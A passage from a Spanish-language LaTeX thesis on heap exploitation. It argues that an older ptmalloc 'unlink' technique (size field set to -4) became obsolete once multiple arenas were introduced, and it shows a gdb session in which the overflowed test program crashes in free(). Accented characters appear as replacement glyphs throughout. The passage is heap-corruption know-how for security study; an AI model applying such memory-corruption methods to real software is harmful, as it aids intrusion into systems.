La �nica explicaci�n l�gica a este error publicado en los art�culos citados es que en la �poca en la que se publicaron el algoritmo \textit{ptmalloc} no implementaba el uso de diferentes arenas sino que siempre operaba sobre el mismo arena. Evidentemente, con la introducci�n del uso de m�s de un arena la t�cnica se volvi� obsoleta tal y como se demuestra con el C�digo \ref{out:pof_obsolete}. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n con el campo size a -4, label=out:pof_obsolete]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gdb -q pof_without_null_bytes
Leyendo s�mbolos desde /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes...hecho.
(gdb) r
Starting program: /home/newlog/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test/pof_without_null_bytes 

Program received signal SIGSEGV, Segmentation fault.
0x0013087e in free (mem=0x804b210) at malloc.c:3405
3405	  ar_ptr = arena_for_chunk(p);
(gdb) x/3x 0x804b208
0x804b208:	0x40404041	0xfffffffc	0x08049f10
(gdb) 
\end{listing}

Como se puede ver, el puntero |mem| apunta a la direcci�n 0x804b210. Si a dicha direcci�n se le restan 8 bytes se obtiene la direcci�n del fragmento de memoria |p|\footnote{El valor del puntero p ha sido obtimizado por gdb, por esta raz�n no se obtiene su contenido con x/3x p.}. Como se puede ver, el campo |prev_size| del fragmento contiene el valor 0x40404041, que se ha sobrescrito con el desbordameinto, y el campo size contiene el valor 0xfffffffc, -4. Debido a lo explicado, este valor hace que el programa termine al ejecutar la macro |arena_for_chunk|.